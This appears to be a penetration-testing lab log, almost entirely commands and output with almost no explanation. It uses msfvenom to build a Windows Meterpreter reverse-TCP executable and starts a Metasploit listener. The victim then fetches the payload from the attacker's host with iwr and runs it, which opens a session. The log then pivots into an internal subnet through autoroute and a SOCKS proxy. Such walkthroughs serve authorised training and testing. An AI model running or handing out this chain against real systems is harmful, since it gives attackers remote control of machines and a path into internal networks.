 kali@kali:~/beyond$ `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe`
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
[-] No arch selected, selecting arch: x64 from the payload  
No encoder specified, outputting raw payload  
Payload size: 510 bytes  
Final size of exe file: 7168 bytes  
Saved as: met.exe


kali@kali:~/beyond$ `sudo msfconsole -q`
msf6 > use multi/handler
[] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > `set payload windows/x64/meterpreter/reverse_tcp`
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > `set LHOST 192.168.119.5`
LHOST => 192.168.119.5
msf6 exploit(multi/handler) > `set LPORT 443`
LPORT => 443
msf6 exploit(multi/handler) > `set ExitOnSession false`
ExitOnSession => false
msf6 exploit(multi/handler) > `run -j`
[*] Exploit running as background job 0.  
[*] Exploit completed, but no session was created.  
[*] Started HTTPS reverse handler on [https://192.168.119.5:443](https://192.168.119.5:443)

PS C:\Users\marcus> `iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe`
PS C:\Users\marcus> `.\met.exe`
In Metasploit, a new session should appear:
- Meterpreter session 1 opened (192.168.119.5:443 -> 192.168.50.242:64234) at 2022-10-11 07:05:22 -0400

msf6 exploit(multi/handler) > `use multi/manage/autoroute`
msf6 post(multi/manage/autoroute) > `set session 1`
session => 1
msf6 post(multi/manage/autoroute) > `run`
[!] SESSION may not be compatible with this module:  
[!]  * incompatible session platform: windows  
[*] Running module against CLIENTWK1  
[*] Searching for subnets to autoroute.  
[+] Route added to subnet 172.16.6.0/255.255.255.0 from host's routing table.
[] Post module execution completed
msf6 post(multi/manage/autoroute) > `use auxiliary/server/socks_proxy`
msf6 auxiliary(server/socks_proxy) > `set SRVHOST 127.0.0.1`
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > `set VERSION 5`
VERSION => 5
msf6 auxiliary(server/socks_proxy) > `run -j`
[*] Auxiliary module running as background job 2.